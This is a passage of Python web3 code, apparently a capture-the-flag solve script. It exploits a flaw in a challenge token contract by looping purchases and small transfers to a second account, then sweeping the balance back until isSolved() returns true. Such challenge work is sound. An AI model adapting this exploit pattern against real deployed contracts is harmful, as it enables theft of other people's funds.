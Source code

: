 ```python
    }
    signed_tx = attacker.sign_transaction(tx)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)
    print(contract.functions.getBalance(attacker.address).call())
    print(contract.functions.getBalance(new_account.address).call())
    print(contract.functions.isSolved().call())
    total_supply = contract.functions.totalSupply().call()
    print(f"Current totalSupply: {total_supply}")

    for i in range(31):
        tx = contract.functions.purchaseBurger().build_transaction(
            {
                "from": attacker.address,
                "gas": 1000000,
                "nonce": w3.eth.get_transaction_count(attacker.address),
            }
        )
        signed_tx = attacker.sign_transaction(tx)
        tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        w3.eth.wait_for_transaction_receipt(tx_hash)

        tx = contract.functions.transfer(new_account.address, 1).build_transaction(
            {
                "from": attacker.address,
                "gas": 1000000,
                "nonce": w3.eth.get_transaction_count(attacker.address),
            }
        )
        signed_tx = attacker.sign_transaction(tx)
        tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        w3.eth.wait_for_transaction_receipt(tx_hash)
        receipt = w3.eth.get_transaction_receipt(tx_hash)
        if receipt["status"] == 1:
            print("Transaction succeeded.")
        else:
            print("Transaction failed.")

        print(contract.functions.getBalance(new_account.address).call())
        print(contract.functions.getBalance(attacker.address).call())
        print(contract.functions.isSolved().call())
        total_supply = contract.functions.totalSupply().call()
        print(f"Current totalSupply: {total_supply}")

    tx = contract.functions.transfer(
        attacker.address, contract.functions.getBalance(new_account.address).call()
    ).build_transaction(
        {
            "from": new_account.address,
            "gas": 1000000,
            "nonce": w3.eth.get_transaction_count(new_account.address),
        }
    )
    signed_tx = new_account.sign_transaction(tx)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)
    receipt = w3.eth.get_transaction_receipt(tx_hash)
    if receipt["status"] == 1:
        print("Transaction succeeded.")
    else:
        print("Transaction failed.")

    exit()
```